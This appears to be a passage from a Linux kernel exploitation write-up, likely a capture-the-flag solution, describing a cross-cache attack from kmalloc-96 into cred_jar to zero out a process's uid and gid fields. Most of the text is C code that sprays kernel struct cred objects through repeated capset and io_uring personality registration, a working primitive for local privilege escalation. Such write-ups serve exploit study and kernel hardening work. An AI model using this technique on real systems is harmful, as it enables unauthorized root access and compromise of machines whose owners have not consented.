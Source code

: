 
Because of leaking kernel base is impossible to me , I didn't use cross cache technique with `kmalloc-192` and `cred_jar` but with `kmalloc-96` and `cred_jar`,
just set uid, gid, suid, ... to `zero` ( don't need to leak many addresses like keyring and namespace struct).

I've learnt a better way to spray `struct cred` :D, better than spaming high number of threads.

```c
static int sys_io_uring_setup(size_t entries, struct io_uring_params *p)
{
    return syscall(__NR_io_uring_setup, entries, p);
}

static int uring_create(size_t n_sqe, size_t n_cqe)
{
    struct io_uring_params p = {
        .cq_entries = n_cqe,
        .flags = IORING_SETUP_CQSIZE};

    int res = sys_io_uring_setup(n_sqe, &p);
    if (res < 0)
        errExit("uring_create::io_uring_setup");
    return res;
}

static int alloc_n_creds(int uring_fd, size_t n_creds)
{
    for (size_t i = 0; i < n_creds; i++)
    {
        struct __user_cap_header_struct cap_hdr = {
            .pid = 0,
            .version = _LINUX_CAPABILITY_VERSION_3};

        struct __user_cap_data_struct cap_data[2] = {0};

        /* allocate new cred */
        if (syscall(SYS_capset, &cap_hdr, (void *)cap_data))
            errExit("alloc_n_creds::capset");

        if (syscall(SYS_io_uring_register, uring_fd, IORING_REGISTER_PERSONALITY, 0, 0) < 0)
            errExit("alloc_n_creds::io_uring_register");
    }
}
```
